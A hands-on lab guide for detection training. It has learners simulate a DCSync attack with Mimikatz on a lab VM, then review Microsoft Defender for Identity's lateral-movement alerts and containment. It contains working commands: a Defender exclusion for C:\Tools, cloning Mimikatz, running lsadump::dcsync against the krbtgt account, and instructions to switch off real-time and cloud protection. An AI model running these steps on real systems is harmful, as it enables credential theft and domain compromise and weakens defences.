

# Lab 13: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task should only be performed in a controlled environment, running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results..

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

      

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.
   
      

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

      

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

      

      >**Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

      

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

      
   
1. In the Windows Security window, select **More Choices.**

      

 1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

      

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

      

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **PowerShell (Administrator)** from Windows search.

      

1. Run the following command to create a folder named `Tools` and add it as an exclusion in Microsoft Defender so that files inside this folder are not scanned.

      ```shell
      New-Item -ItemType Directory -Force -Path "C:\Tools"
      ```

      ```
      Add-MpPreference -ExclusionPath "C:\Tools
      ```

1. Run the below command to download the Mimikatz tool in `C:\Tools` folder.

      ```
      cd C:\Tools
      ```

      ```
      git clone https://github.com/ParrotSec/mimikatz
      ```
    > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

      

1. Navigate to the below mentioned directory in Powershell.

      ```powershell
      cd mimikatz\x64
      ```

1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
      ```

      > **Note:** If you see an error message indicating that the command failed, it is due to antivirus, perform the below steps and then run **step 16**again

      > 1. Navigate to Windows Security and click on **Virus & threat protection**.
      

      > 2. Turn off **Real-time protection (1)** and **Cloud-delivered protection (2)**
      

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in. It may take about 10-15 minutes to log out, please wait

1. Now, go back to **svm-<inject key="DeploymentID" enableCopy="false"/>** virtual machine and check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      

1. Navigate to **Incidents** and review the incident with the tag **Lateral Movement**.

   

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you:
- Launched the Mimikatz tool from PowerShell (Admin) to simulate a DC Sync attack.
- Attempted to extract the credentials of the `krbtgt` account.
- Observed automatic containment measures initiated by Microsoft Defender for Identity.
- Verified alerts in the Microsoft Defender portal for blocked lateral movement attempts via remote logon and RDP.

## You have successfully completed the lab. Click on Next to Continue
